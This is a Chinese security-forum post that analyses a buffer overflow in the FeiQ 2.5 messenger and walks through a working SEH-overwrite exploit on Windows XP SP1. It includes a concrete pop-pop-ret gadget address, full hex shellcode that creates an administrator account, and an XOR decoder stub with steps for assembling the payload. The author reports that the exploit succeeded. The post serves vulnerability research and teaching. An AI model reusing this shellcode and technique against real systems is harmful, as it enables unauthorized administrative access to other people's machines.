# 飞秋 2.5exploit 代码与分析【感谢漏洞发布者 artake】欢迎大家拍砖

> 原文：[`www.pediy.com/kssd/pediy12/144916.html`](https://www.pediy.com/kssd/pediy12/144916.html)

[原帖子地址](http://bbs.pediy.com/showthread.php?p=1033698#post1033698)  
**软件名称：**  
飞秋（FeiQ）2.5 测试版【软件漏洞更新：[`www.feiq18.com/forum.php?mod=viewthread&tid=2198441&extra=page%3D1`](http://www.feiq18.com/forum.php?mod=viewthread&tid=2198441&extra=page%3D1)】  
**漏洞名称：**  
缓冲区溢出漏洞  
**利用方式：**  
SEH 链跳转  
**漏洞分析**  
话不多说，先上图  
  
        ebx 中是一个数据长度的表征域，先比较它的大小是否超过了 0x3fffh，这是一个缓冲区的上限。因为只分配了 16k 的空间（这是这么认为的），而拷贝的话只能拷贝 16k-1 字节的大小，因为可能还要给**\\0**预留一点空间。  
        按照作者的逻辑，eax 是存储的是 memcpy 函数的长度参数，现在在 eax 中先存入了一个最大的上限值，接下来按照比较的结果来进行修正：若实际的长度 ebx 不大于最大的长度的话，则把 eax 的值写入到 ebx 中，这样以实际的长度值进行拷贝，而若实际的长度大于了缓冲区的限制，则不用 eax 更新 ebx 值，以最大的长度限制进行拷贝。  
        这里有一点不严密的地方是：在比较的时候用的是有符号的数的比较，而实际在 memcpy 函数中进行拷贝的时候用的是无符号的数进行的。而在比较的时候在负数在比较时会小于缓冲区的大小，而在进行拷贝的时候这个负数的内码会被解释为无符号的数，因此实际上又变为了一个很大的正数。这样就产生了一个溢出。  
        **MS04-028 漏洞也是因为这么一个原因才造成了溢出，也可以理解为一个下溢。**  
**利用方法解析：**

> 首先分析溢出点的地址，分析出是栈溢出还是堆的溢出。从作者的习惯来看可以猜出这是一个栈溢出，因为作者不喜欢使用堆来分配内存，我们可以从这个溢出点函数的最开始的一段代码就可以见端倪。

这里最开始就是\_\_alloca\_probe 分配了一个空间， 这个空间在栈上面，这个函数我初步分析了一

> 下，就是简单的对栈的 esp 指针根据要分配的内存大小进行了一次下移。不过 我好像没有看到保存分配的内存的指针的地方，你们看到了吗？

  
        考虑到这个溢出的长度非常的长，肯定是不能利用覆盖返回地址的方式进行溢出，然后再用 jmp esp 的经典方法进行定位，因为这里的最小的负数应该也是 0x8001，转换为一个无符号的正数看待的时候也会是一个非常大的数，因此肯定会在拷贝的时候走出本的空间，从而造成访问违规（exception code:0xc005）,这样在函数执行到返回前就已经有了异常，而这个异常明显是一个未处理异常，因此是没有执行到返回的机会的，另外在调试分析了溢出的地址后，可以发现 这个栈的位置不在当前调用函数的栈桢上面，初步分析还在上两层的函数栈桢里，因此要返回、再返回、再返回才有可能执行到 jmp esp。因此此种利用方式是不可行的  
        因此根据这些信息、以及坛子里大家反馈的信息来看，要利用也只能利用 SEH 链来进行跳转。刚开始还在想我们的数据的有效只有 16k 的空间，约等于 16k。我们的数据能够有效的覆盖到 seh，然后进行跳转到 shellcode 执行。  
       刚开始还想去直接去看栈的内存情况，看一下内存的覆盖情况。其实后来想了一下，不用看内存的覆盖情况。因为这个利用是要覆盖 seh 结构，而不是返回地址。若是返回地址则要看栈的 stack backtrace。也就是栈的回溯。而对于 SEH 结构的利用，可以直接用 OLLYDBG 的插件进行观看 SEH 链。我们只要先看一下 seh 链的地址，即我们能否用我们的有效数据对 seh 结构进行覆盖。而不用太细致的分析，只要看结果是否是我们想要的就可以了。  
       因此下面就进入分析：

*   **1：定位溢出点**

        这个很简单，先说一下实验的环境：  
** windows xp sp1，其它的版本可能失败，或者是无法利用  
        feiq 2.5 软件  
        ollydbg 调试器  
        artake 给的 poc 代码进行修改**  
        首先在虚拟机中用 OLLYDBG 调试运行飞秋软件，并且先在溢出点打上断点。（这个 artake 已经给出了地址，直接下断点吧，ctrl+G 直接打吧，不多说了）  
        用 artake 给的代码编译后进行发送数据，注意在编译前要改一下虚拟机中目标飞秋软件的 ip 地址。此时会得到如下的情形。  
        此时是刚进行溢出点函数，因此栈上面的信息与 seh 结构链的数据都是正确的。此时要做的工作就是做一下栈的回溯，也就是函数的调用序列。不过这个应该不是主要的，因为这里的应用与栈的调用关系没有太大的关系。主要要看的是 seh 链的信息。  
这是溢出的时候的代码信息  
这个是溢出时的堆栈情况。  
下面再看一下 SEH 结构的信息。  
  
需要说明的是这一个图中的地址栏是异常处理注册记录的入口地址，而右边的是这个结构体的第二个域，也就是 handler.  
地址 0x0011F1FC 处是最头上的异常处理记录，也就是当前函数注册的异常记录，本来想在同一图中显示出 seh 在栈中的位置的，不过在栈中这个函数分配了太多的内存空间，因此直接是看不到的，现在我们把 esp+0x4048 的样子就可以看到了。  
  
在这里可以看到返回地址在栈的 11F208，也就是 esp+0x4058 的地方，一可以发现栈栈中分配了多于 16k 的地址空间供内部变量使用。这个也可以从这个函数的入口地址处的一个栈上申请变量的代码处得到验证。其实也可以直接从调用堆栈关系可能很快的定位到一个函数的返回地址在堆栈处的地方，另外找到了返回地址，也找到了 seh 结构注册到栈上的位置。  
  
从里面可以看到返回地址在的地方为 11F208。也可以看到此函数注册了一个 SEH，这个是 seh 的最头。而第二个 seh 结构的地址在 12d364 处，这个 seh 结构在栈的更高的地址处，因此如果拷贝的话是可以覆盖掉这里的，因为覆盖是往高地址进行覆盖的，不过有一个要注意的地方是 memcpy 的目标地址是否在这个 seh 结构的上面，若是的话，则还要看下一个 seh 结构是否能够被覆盖掉，下面定位到拷贝的代码处看一下目标地址与源地址的大小关系及位置。  
  
在上图中可以看到 esi 的地址比 edi 的地址要小，而 edi 的地址为 0X1233E0，这个地址与第二个 SEH 结构的地址为 12d364 比较要小一些，因此是会往上覆盖掉这一个 seh 结构的。现在再看一下 ESI,EDI 之间的距离为 1233E0-11F289=0X4157,，这个数差不多就是一个 16k 的地址空间，而 edi 与 seh 的距离为：12d364-1233e0=0x9F84,差不多是 32k 的地址空间，而且是多余 32k 的，这样的话第一遍有效数据是不能直接到达目标，不过还好的是第二遍的时候可以进行有效的覆盖：下面是一个图来说明这一个情况。  
  
首先数据会被从 esi 开始进行拷贝，这样数据会被拷贝到数据 b 的区域，此时新的 esi 与 edi，如右边所示。这样继续的时候又把数据从 B 搬到了 C。这样最终就到达了，seh 的地方。  
**  
        刚 开始的时候我还担心是否能用我们的有效的数据对 seh 进行覆盖，因此我们的有效数据只有 16k，而后的数据是我们不能够控制的，而事实不是如此，后面的数据虽然不能控制，但是两者间挨得很近。这样我们的数据就会重复的被拷贝到目标地址，而覆盖掉目标地址的数据正好是我们的有效数据  
        如果这两个缓冲区隔得很远的话，我们能够控制的 seh 结构不是第二个，可能是第三个，也可能是第四个、第五个、或者是一个也没有。此时 SEH 结构的前面节点被我们用垃圾数据进行覆盖掉了，但是我们能够控制的链在后面，此时就不能进行利用了，因为前面的指针用垃圾数据覆盖后，就不会顺利的搜索到我们能够控制的 seh 数据点。这个是我们值得考虑的地方**  
       其实我在分析 时候没有考虑那么多，先对可能覆盖掉的第二个 SEH 进行监视。因为第一个明显不可能。只要能够进行有效的覆盖就行了，不用进行如此严密的分析。  
可以从下图中得到，我们的数据能够有效的覆盖掉 seh 结构。对 SEH 结构地址进行内存监视。可以看到被覆盖成了 AAAA AAAA：  
  
        下面可以对这个点进行定位了，因为最开始的时候 16k 的数据都是 A，因此不能知道是哪一个数据对地址进行了覆盖，我用的方法也是大家常用的定位方法。也就是定位商与余两者结构进行分析。而我的具体做法是：把这些 A 重新从 0-9；a-z；X-Z；9-0；z-a;Z-A，这些填写是每一个字母是写入 200 个字节，也就是 200 个 0，200 个 1，........200 个 a，一直写下去。  
        下面是对数据的一个内存截图：  
  
        然后再把数据再次的送到飞秋中去，监视 SEH 结构被覆盖的情况   
  
        可以得知覆盖掉 seh 结构的数据是大 B，而且是顺向的大 B，观察内存的值可以很显示的看到 SEH 地址后有 10 个大 B，而后是大 C。这样溢出数据的定位就搞清楚 了。

*   **2.定位 SHELLCODE**

       在定位了覆盖数据后，接下来是用 SEH 处理定位设立 shellcode:这里有这么一些方法。  

1.  jmp ebx/call ebx
2.  pop,pop,ret
3.  直接跳转

        前两种是 seh 结构利用的通用做法，而后面一种是有一定的限制。当初在调试的时候看到那个 edi 的地址是固定的，这样可以直接让调用 seh 处理函数的时候直接跳转到 shellcode 执行。当初我想的是把 shellcode 放到 seh 结构的后面，但是发现地址中有 0，因此字符串被载断了，不能进行执行不过我们可以换一种方式，把 shellcode 放到 seh 结构的前面，这样载断后也能正常执行我们的代码。这样也算是比较好的解决方法，但是要说明 的是，这个 EDI 是随系统应该是要变的，只是我调试的时候是一直不变的。因此也不能说是一个好的解决办法。  
        对于常用的标准用法，第一种用法中 jmp ebx 的做法，好像在我的环境中不能用。因为我的调试的时候直接是 0，ebx 的值为 0，不能被利用。  
大家说下是什么原因呢，我以前没有分析过 2000 的利用方式。大家也说这个是标准用法，看 q 版缓冲区溢出教程的时候也是这样说的，我 这为什么就 是 0，不能被利用呢。知道的麻烦告知一声。  
        因此我用的是第二种方式，也就 POP,POP,RET 的方式。下图是遍历到第二个 SEH 数据，也就是调用我们的覆盖掉的地址 BBBB(0X42424242)..  
  
这个数据是我们覆盖掉的 HANDLER，这样的话只要把这个值给覆盖成 pop....的形式就可以利用了。前段时间在对 windows 的堆进行逆向。也就是对 NTDLL.dll 进行分析。则好在一个函数：  
RtlpFindEntry 函数的结束处找到了如下的代码：  
  
虽然最后一个不是的 ret，而是 retn 8，不过这个不影响，只要前面是两个 pop 就是了。因此我们应该把函数地址覆盖成 0x77f5ff8b，这个值应该是在不同的系统有不同的地址，不过这个指令在不同的系统中应该是一定存在 的。  
          把 next 填写为 jmp 指令，跳过 handler。然后可以直接执行了。  
         我给出的一个 shellcode 是一个创建一个名为 X 的用户了 shellcode。这个 shellcode 如下：  
代码:

```
char shellcode\[\]=//cteate a user:x
  "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90"
  "\\x66\\x81\\xec\\x80\\x00\\x89\\xe6\\xe8\\xb7\\x00\\x00\\x00\\x89\\x06\\x89\\xc3" 
  "\\x53\\x68\\x7e\\xd8\\xe2\\x73\\xe8\\xbd\\x00\\x00\\x00\\x89\\x46\\x0c\\x53\\x68" 
  "\\x8e\\x4e\\x0e\\xec\\xe8\\xaf\\x00\\x00\\x00\\x89\\x46\\x08\\x31\\xdb\\x53\\x68" 
  "\\x70\\x69\\x33\\x32\\x68\\x6e\\x65\\x74\\x61\\x54\\xff\\xd0\\x89\\x46\\x04\\x89" 
  "\\xc3\\x53\\x68\\x5e\\xdf\\x7c\\xcd\\xe8\\x8c\\x00\\x00\\x00\\x89\\x46\\x10\\x53" 
  "\\x68\\xd7\\x3d\\x0c\\xc3\\xe8\\x7e\\x00\\x00\\x00\\x89\\x46\\x14\\x31\\xc0\\x31" 
  "\\xdb\\x43\\x50\\x68\\x72\\x00\\x73\\x00\\x68\\x74\\x00\\x6f\\x00\\x68\\x72\\x00" 
  "\\x61\\x00\\x68\\x73\\x00\\x74\\x00\\x68\\x6e\\x00\\x69\\x00\\x68\\x6d\\x00\\x69" 
  "\\x00\\x68\\x41\\x00\\x64\\x00\\x89\\x66\\x1c\\x50\\x68\\x58\\x00\\x00\\x00\\x89" 
  "\\xe1\\x89\\x4e\\x18\\x68\\x00\\x00\\x5c\\x00\\x50\\x53\\x50\\x50\\x53\\x50\\x51" 
  "\\x51\\x89\\xe1\\x50\\x54\\x51\\x53\\x50\\xff\\x56\\x10\\x8b\\x4e\\x18\\x49\\x49" 
  "\\x51\\x89\\xe1\\x6a\\x01\\x51\\x6a\\x03\\xff\\x76\\x1c\\x6a\\x00\\xff\\x56\\x14" 
  "\\xff\\x56\\x0c\\x56\\x6a\\x30\\x59\\x64\\x8b\\x01\\x8b\\x40\\x0c\\x8b\\x70\\x1c" 
  "\\xad\\x8b\\x40\\x08\\x5e\\xc2\\x04\\x00\\x53\\x55\\x56\\x57\\x8b\\x6c\\x24\\x18" 
  "\\x8b\\x45\\x3c\\x8b\\x54\\x05\\x78\\x01\\xea\\x8b\\x4a\\x18\\x8b\\x5a\\x20\\x01" 
  "\\xeb\\xe3\\x32\\x49\\x8b\\x34\\x8b\\x01\\xee\\x31\\xff\\xfc\\x31\\xc0\\xac\\x38" 
  "\\xe0\\x74\\x07\\xc1\\xcf\\x0d\\x01\\xc7\\xeb\\xf2\\x3b\\x7c\\x24\\x14\\x75\\xe1" 
  "\\x8b\\x5a\\x24\\x01\\xeb\\x66\\x8b\\x0c\\x4b\\x8b\\x5a\\x1c\\x01\\xeb\\x8b\\x04" 
 "\\x8b\\x01\\xe8\\xeb\\x02\\x31\\xc0\\x89\\xea\\x5f\\x5e\\x5d\\x5b\\xc2\\x08\\x00";

```

        大家可能已经看到代码是有 0 的，因此不能直接进行发送要先把代码进行加密后除 0 再发送。不然数据会被截断，不能全部被拷贝。  
这个数据里进行了加密的话，因此在 shell code 的头上还应该加上解密头。我的解密头如下：这些代码是分析别的漏洞时积累下来的，如果大家用得着就自己留着吧。  
代码:

```
char shellcode\_header\[\]=
"\\xEB\\x10\\x58\\x31\\xC9\\x66\\x81\\xC1**\\x22\\xFF**\\x80\\x30\\x1D\\x40\\xE2\\xFA\\xEB\\x05\\xE8\\xEB\\xFF\\xFF\\xFF";

```

上面的红色的 22 ff 是要改变的有效的 shellcode 的长度。也就是 shellcode 的 Payload。  
**这个加密头的用法：**

1.  首先把得到的 shellcode 进行加密后。分配一个目标缓冲区来存储加密后的+头的 shellcode。
2.  再把解密头先拷贝到目标区中去，拷贝前要把 22 FF 用真正的长度进行替换。
3.  最后把加密后的有效 shellcode 拷贝到目标缓冲区的头的后面连接起来。

下面是对执行时的一些截图：  
首先是处理到第二个 seh 入口。调用我们替换成的 pop，pop，ret 指令。  
  
然后是返回到我们 shellcode 的入口处，跳过 handler 指针。到解码入口。  
  
解码入口把 shellcode 进行解码。解码完后跳转出解码到真正的有效 shellcode 的入口处。进行执行。创建'X'用户  
  
执行效果：  
  
最后成功创建了管理员账户,说明成功进行了利用。  
需要说明的是其它的系统如 windows server２００３　若能够利用的话，可能也要重新定位ｐｏｐ，ｐｏｐ，ｒｅｔ的地址。  
而ｘｐ　ｓｐ２的话应该是不能利用了，听说　是加入了ＳＡＦＥｓｅｈ的功能。大家看法如何，欢迎回帖讨论。  
参考资料：  
ＳＥＨ相关资料  
[`vicchina.51.net/show\_article.php?id=65`](http://vicchina.51.net/show_article.php?id=65)  
[`vicchina.51.net/show\_article.php?id=63`](http://vicchina.51.net/show_article.php?id=63)  
[`vicchina.51.net/show\_article.php?id=64`](http://vicchina.51.net/show_article.php?id=64)  
ｓｅｈ利用相关资料  
一时找不到  
今天早上来到教研室把昨天查看过的资料地址找到了，供大家参考，现在贴在下边   
独家快递：覆盖 SEH 攻击的末日-SEHOPP:[`security.ctocio.com.cn/securitycomment/390/8700390.shtml`](http://security.ctocio.com.cn/securitycomment/390/8700390.shtml)  
系统服务调用与异常分发：[`apps.hi.baidu.com/share/detail/21298681`](http://apps.hi.baidu.com/share/detail/21298681)  
【翻译】绕过 SEHOP 安全机制[`bbs.pediy.com/showthread.php?t=104707`](http://bbs.pediy.com/showthread.php?t=104707)  
**题外话：**  
        昨天要安全检查,临时把电脑改成了 linux 的系统。这样检查起来就简单一些，因为 Linux 下没有那么多的工具可以使用，不小心把 win7 的启动时间改为 0 了，这样死活进不了 win7。  
本来早上就可以找到上面补的链接，可是因为进不了 win7 折腾了一上午，这里把改启动的方法告诉大家。linux 下有一个 grub 启动管理器，可以管理多个系统的启动，可是我的电脑是 wubi 安装的，在 grub 中执行“sudo update-grub”后还是不能添加上 win7 的启动项。后来的解决方法是：因为是把 win7 的启动菜单的时间改为了 0.linux 的系统作为了默认的系统，这样就进不了 win7，我的做法是先  
mount win7 所在的磁盘，然后再把 boot 目录中的 bcd 文件拷贝出来，可以拷到 u 盘中，然后在另外的电脑中找一个 easyBCD 的软件，可以对 win7 的启动配置进行修改。改好后再放回原来的位置，重启系统就可以进 win7 了。阿门  
  
做了一个有界面的工具**【工具已撤，要的私下吧】**，方便大家测试，也把调试的源代码发了出来，供大家交流  


上传的附件
|  || firfor.rar  
 |